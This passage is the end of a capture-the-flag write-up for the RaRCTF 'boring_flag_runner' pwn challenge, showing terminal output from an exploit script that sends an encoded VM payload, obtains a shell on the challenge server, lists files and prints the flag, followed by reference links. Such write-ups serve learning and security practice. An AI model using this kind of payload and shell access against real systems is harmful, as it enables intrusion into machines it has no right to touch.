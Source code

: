 ```
boot
challenge
dev
etc
home
lib
lib32
lib64
libx32
media
mnt
opt
proc
root
run
sbin
srv
sys
tmp
usr
var
$ ls /challenge 1>&2
Dockerfile
boring-flag-checker
build.sh
ctf.xinetd
flag.txt
getprog.py
start.sh
[*] Got EOF while reading in interactive
$ 
[*] Interrupted
knittingirl@piglet:~/CTF/RaRCTF/boring_flag_runner$ python3 boring_flag_runner_payload_final.py 
[+] Opening connection to 193.57.159.27 on port 28643: Done
b'enter your program:'
b'@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@EFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFF@FF@GGGGGGGGGGGGBBBBBBBBBBE@@@@@@@@@@@@@@@@CFBBBBBBBBBBBBBBBBG@@@@@@@@@@@@@@@@AEBBBBBBBBBBBBBBBB@E@@@@@@@@@@@@@@@@CFBBBBBBBBBBBBBBBBG@@@@@@@@@@@@@@@@AEBBBBBBBBBBBBBBBBGGGGGGGGGGGGGGGG@E@@@@@@@@@@@@@@@@CFBBBBBBBBBBBBBBBBG@@@@@@@@@@@@@@@@AEBBBBBBBBBBBBBBBB@E@@@@@@@@@@@@@@@@CFBBBBBBBBBBBBBBBBG@@@@@@@@@@@@@@@@AEBBBBBBBBBBBBBBBB@E@@@@@@@@@@@@@@@@CFBBBBBBBBBBBBBBBBG@@@@@@@@@@@@@@@@AEBBBBBBBBBBBBBBBB@E@@@@@@@@@@@@@@@@CFBBBBBBBBBBBBBBBBG@@@@@@@@@@@@@@@@AEBBBBBBBBBBBBBBBB'
[*] Switching to interactive mode
 $ cat /challenge/flag.txt 1>&2
rarctf{my_br41nf$%k_vm_d03snt_c4r3_f0r_s1lly_b0unds-ch3ck5_56fc255324}
[*] Got EOF while reading in interactive
$  
```
Thanks for reading!

## References:

https://github.com/knittingirl/CTF-Writeups/tree/main/pwn_challs/RaRCTF/Guessing_Game

https://esolangs.org/wiki/Brainfuck

